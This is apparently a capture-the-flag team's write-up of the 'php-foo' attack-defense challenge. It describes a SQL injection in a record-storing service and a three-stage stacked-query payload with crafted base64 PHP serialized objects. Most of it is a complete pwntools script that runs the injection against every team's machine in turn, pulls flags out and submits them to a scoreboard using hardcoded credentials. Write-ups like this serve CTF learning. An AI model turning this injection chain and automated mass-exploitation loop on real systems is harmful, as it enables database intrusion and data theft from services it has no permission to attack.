


# Challenge `php-foo`


## Application:

The application stores secret records with the following opitons:

```
    Welcome!
    You can do the following:
        0) encrypt
        1) decrypt
        2) store new record
        3) retrieve your record
        4) exit

    What do you want to do?
```

if we look into the code from `troll.php`, we see that messages wont be encrypted at all:


furthermore we see a possible injection in `crypto.php`


## Exploit:

to exploit the vulernability, we decided to do a multistage payload.

1. Insert an entry of our liking with a primary key of our liking.
2. Get the primary key of the latest entry starting with "FLAG" and write it in the entry of step 1.
3. use the vlaue of entry created in step 1. and updated in step 2. as primary key to retreive the data.
4. submit the flag to the flagserver.

the injection strings will look like that:

```python
stage1 = 'insert into record values("%s","foo","12");' % _pkey
stage2 = 'update record set record = (select identifier from record where record like "FLG%%" order by time desc limit 1) where identifier = "%s" ;' % _pkey
stage3 = 'select record from record where identifier = "%s"' % _pkey
```

the stages need some additional wrapping which is done by the following function:

```python
def getStage(input):
    return "baar', 'foo'); %s ; insert into record values ('foobar6','foobar6"  % input
```

in step 3, we actually have to somehow "serialize" the data
which we did with the following function:

```python
def bake64(input):
    _size = len(input)
    temp = 'a:1:{i:0;O:6:"Record":1:{s:10:"identifier";s:%s:"%s";}}' % (_size,input)
    return base64.b64encode(temp)
```

to not interfere with previous runs of the exploit or another instance of our exploit we generate a timestamp on our primary key

```python
_pkey = 're1n3r'+str(int(time.time()))
```


## Final exploit

```python
from pwn import *
import requests
import base64
import time
from requests.auth import HTTPBasicAuth
import itertools
import traceback
import random
context.log_level = 'info'

_pkey = 're1n3r'+str(int(time.time()))

stage1 = 'insert into record values("%s","foo","12");' % _pkey
stage2 = 'update record set record = (select identifier from record where record like "FLG%%" order by time desc limit 1) where identifier = "%s" ;' % _pkey
stage3 = 'select record from record where identifier = "%s"' % _pkey


def bake64(input):
    _size = len(input)
    temp = 'a:1:{i:0;O:6:"Record":1:{s:10:"identifier";s:%s:"%s";}}' % (_size,input)
    return base64.b64encode(temp)


def getStage(input):
    return "baar', 'foo'); %s ; insert into record values ('foobar6','foobar6"  % input


while True:
    resp_machines = requests.get('https://scoreboard.ctf.cinsects.de/ctf/targets/', auth=HTTPBasicAuth('Re1n3r', 'lolwut'),verify=False)
    data_machines = resp_machines.json()
    # specify service
    service_go = 'go-foo'

    # store all flags here
    flags = []
    test = data_machines[service_go].items()
    random.shuffle(test)
    # for each machine
    for team, value in test :
            ip = value[0]
            try:
                t = remote(ip, 1338,timeout=20)
                for limit in itertools.count():
                        t.recvuntil('What do you want to do?')
                        t.sendline('2')
                        t.recvuntil('add: ')
                        #insert cyber123
                        t.sendline(getStage(stage1))
                        t.recvuntil('What do you want to do?')
                        t.sendline('2')
                        t.recvuntil('add: ')
                        #get actual flag key and write it into cyber123 pkey
                        t.sendline(getStage(stage2))
                        t.recvuntil('What do you want to do?')
                        t.sendline('3')
                        r1 = t.recvuntil('identifier: ')
                        print r1
                        #retreive key from cyber123 pkey
                        t.sendline(bake64(_pkey))
                        print("stage 3:")
                        flagkey = t.recvline()
                        print("flagkey: %s" % flagkey)
                        flagkey = flagkey.replace('\n','').replace('\r','')
                        pprint(flagkey)
                        t.recvuntil('What do you want to do?')
                        t.sendline('3')
                        t.sendline(flagkey)
                        keys = t.recvuntil("Welcome")
                        keys = keys.split(":")[2].strip().replace('\n','').replace('\r','').replace('Welcome','')
                        print("keys: %r" % keys)
                        ##########
                        t.recvuntil('What do you want to do?')
                        t.sendline('3')
                        print("SENDLINE 3")
                        t.sendline(bake64(keys))
                        myflag = t.recvuntil("Welcome!")
                        print("WELCOME AGAIN")
                        print("flag: %r" % myflag)
                        t.close()
                        print("send flag: %r" % myflag)

                        mo = re.search(r'\b(FLG[0-9a-zA-Z]{30})\b', myflag)
                        if mo:
                            actual_flag = mo.group(0)
                            url = 'https://scoreboard.ctf.cinsects.de/ctf/submit_flag/'
                            resp_flags = requests.post(url, auth=HTTPBasicAuth('Re1n3r', 'lolwut'), json={'flags': [actual_flag]})
                            print(resp_flags.text)

            except Exception as e:
                #traceback.print_exc()
                print("shit... %s" % e )
                continue
    time.sleep(300)


```
